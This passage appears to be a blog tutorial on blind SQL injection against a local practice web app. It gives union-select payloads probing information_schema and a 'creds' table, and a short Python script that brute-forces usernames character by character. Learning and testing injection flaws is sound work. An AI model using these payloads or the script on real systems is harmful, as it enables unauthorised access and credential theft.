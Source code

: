 Next we can use the "like" operator to see if there is a creds table present in the database. We will supply a non existent fruit id so that we can use union to see if any result is produced.

<img src="/images/b2bsql/blindinjection.png" width="500">

with the query `id=12 union select table_name from information_schema.tables where table_name like 'creds%'` we see it returned "fruit found". this time we already knew that there was a table named "creds" present. In other cases we can look for table names alphabet by alphabet.

For example:

`where table_name like 'a%'`

If this returns "fruit found" we will know there was a table with name starting with "a". The "a%" will match anything after 'a'. Next we can do:

`where table_name like 'ab%'`

If this returns "No entry found" we will know that there are no table like that. This type of injection really calls for a good script to brute-force for possible table names. Not only table name but you can also brute-force for the contents of the table.

`union select user from creds where user like 'roo%'`

Here is a really simple script I cooked up:

{%highlight text%}
import requests

alphabets=[]

first = 'a'
for i in range(0, 26):
	alphabets.append(first)
	first = chr(ord(first) + 1)

entry=''
count=0
while(count<28):
	for x in alphabets:
		r=requests.get("http://localhost/?id=12 union select user from creds where user like '{}%'".format(entry+x))
		if 'fruit' in r.text:
			entry+=x
			print(entry)
			break
		else:
			pass
			count+=1
{%endhighlight%}
